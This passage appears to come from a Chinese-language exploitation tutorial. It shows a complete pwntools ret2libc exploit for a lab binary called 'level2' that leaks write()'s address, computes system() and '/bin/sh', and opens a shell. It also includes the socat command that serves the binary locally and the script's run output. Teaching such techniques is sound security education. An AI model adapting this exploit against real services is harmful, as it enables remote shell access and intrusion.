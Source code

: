 最后exp如下：

```
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so')
elf = ELF('level2')

#p = process('./level2')
p = remote('127.0.0.1', 10003)

plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x08048404
print 'vulfun= ' + hex(vulfun_addr)

payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

print "\n###sending payload1 ...###"
p.send(payload1)

print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

payload2 = 'a'*140  + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

print "\n###sending payload2 ...###"
p.send(payload2)

p.interactive()

```

接着我们使用socat把level2绑定到10003端口:

```
socat TCP4-LISTEN:10003,fork EXEC:./level2

```

最后执行我们的exp：

```
$python exp3.py 
[+] Opening connection to 127.0.0.1 on port 10003: Done
plt_write= 0x8048340
got_write= 0x804a00c
vulfun= 0x8048404

###sending payload1 ...###

###receving write() addr...###
write_addr=0xb76f64c0

###calculating system() addr and "/bin/sh" addr...###
system_addr= 0xb7656460
binsh_addr= 0xb7778ff8
```
